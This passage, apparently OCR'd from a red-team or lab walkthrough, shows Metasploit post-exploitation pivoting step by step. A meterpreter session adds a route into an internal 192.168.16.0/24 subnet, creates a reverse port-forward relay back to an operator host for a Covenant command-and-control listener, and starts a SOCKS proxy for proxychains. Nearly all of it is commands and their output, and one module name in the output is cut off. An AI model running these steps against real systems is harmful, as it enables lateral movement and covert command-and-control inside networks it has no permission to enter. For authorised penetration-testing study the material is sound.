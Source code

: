 ```bash
meterpreter > run autoroute -s 192.168.16.0/24
[*] Adding a route to 192.168.16.0/255.255.255.0...
[+] Added route to 192.168.16.0/255.255.255.0 via 192.168.xxx.xxx
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```
- We have the routing table now we have to do port-forwarding using meterpreter cmd `portfwd`:

```bash
meterpreter > portfwd add -R -p 1234 -l 443 -L <LHOST>
[*] Reverse TCP relay created: (remote) [::]:1234 -> (local) xxx.xxx.xxx.xxx:443
meterpreter > portfwd 

Active Port Forwards
====================

   Index  Local                Remote     Direction
   -----  -----                ------     ---------
   1      xxx.xxx.xxx.xxx:443  [::]:1234  Reverse

1 total active port forwards.
```
To forward the port to Covenant we will utilise `socks_proxy`.

### 10.3 Socks

- After backgrounding the active process, we will use the module `auxiliary/server/socks_proxy`.
> ***Make sure to verify the `SVCPORT` in your local machine's `proxychains4.conf` file. To navigate to this file enter cmd: `nano /etc/proxychains4.conf`. Scroll to the very bottom and verify the port for `socks4`.

```bash
msf6 auxiliary(server/socks_proxy) > set srvport 9050
srvport => 9050
msf6 auxiliary(server/socks_proxy) > exploit
[*] Auxiliary module running as background job 3.
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                         Payload  Payload opts
  --  ----                         -------  ------------
  1   Auxiliary: server/socks_unc
```
- We can verify the port we setup earlier by interacting with the active meterpreter session and by running the cmd `netstat -ano`
